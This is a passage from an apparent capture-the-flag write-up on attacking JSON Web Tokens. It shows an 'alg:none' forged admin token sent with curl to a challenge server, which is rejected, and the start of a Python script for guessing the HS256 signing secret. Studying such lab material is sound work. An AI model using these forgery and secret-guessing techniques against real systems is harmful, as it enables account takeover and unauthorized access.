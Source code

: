 Sadly, this does not work as well:
```shell
$ echo -n '{"alg":"none","typ":"JWT"}' | base64
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=
                                                      
$ curl --header "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImFkbWluIiwiZW1haWwiOiJlbWFpbCIsInBhc3N3b3JkIjoiOTAxOTI0NTY1In0sImlhdCI6MTYyNTU5NTk0MH0." https://dfcc0832c5e1cbc15c79387ec0686916.challenge.hackazon.org/user/capsule 
{"status":401,"error":{"name":"JsonWebTokenError","message":"invalid token"}} 
```

As we are now desperate enough, we will implement a Python script for running a word list attack
against the JWT secret. There is a Python library called [jwt](https://pypi.org/project/jwt/) for
encoding and decoding JWTs, which sounds like a good idea to start with:
```python
import jwt

original_token = (
    "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9."
    + "eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVt"
    + "YWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ."
    + "fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg"
)

encoded_jwt = jwt.encode(
    {
        "data": {
            "id": 5,
            "username": "user",
            "email": "email",
            "password": "901924565",
        },
        "iat": 1625595940,
    },
    "secret",
    algorithm="HS256",
)

print("ORG:", original_token)
print("NEW:", encoded_jwt)
```

The idea here is to create a new JWT with the same payload as our original token using the
(probably incorrect) secret `secret`. We expect header and payload of both tokens to be identical
and the only difference to be the signature. However, the output is rather unexpected:
```shell
$ python3 ./jwt_secret.py
ORG: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg
NEW: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.KP4INJ2UswWltUbKXn7j1FONEmQUEkZ6k62cWtb4RAg
```

